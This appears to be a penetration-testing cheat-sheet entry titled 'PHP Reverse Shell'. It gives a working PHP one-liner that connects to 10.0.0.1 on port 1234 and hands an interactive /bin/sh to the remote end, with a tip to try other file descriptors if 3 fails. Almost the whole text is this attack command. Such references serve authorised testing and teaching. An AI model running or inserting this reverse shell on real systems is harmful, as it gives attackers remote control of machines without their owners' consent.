 # PHP Reverse Shell

```php
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

This code assumes that the TCP connection uses file descriptor 3. This worked on my test system. If it doesn’t work, try 4, 5, 6…
